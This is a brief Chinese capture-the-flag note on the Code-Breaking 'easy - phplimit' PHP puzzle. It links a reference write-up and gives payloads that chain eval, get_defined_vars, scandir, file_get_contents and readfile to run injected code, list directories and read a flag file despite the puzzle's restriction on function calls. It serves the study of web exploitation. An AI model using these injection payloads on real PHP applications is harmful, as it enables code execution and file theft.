 ## code-breaking_easy-phplimit函数的巧妙搭配

参考文章：
- https://www.kingkk.com/2018/11/Code-Breaking-Puzzles-%E9%A2%98%E8%A7%A3-%E5%AD%A6%E4%B9%A0%E7%AF%87/#get-defined-vars

payload：

```
eval(next(current(get_defined_vars())));&b=print_r(scandir('../'));print_r(file_get_contents('../flag_phpbyp4ss'));
readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
```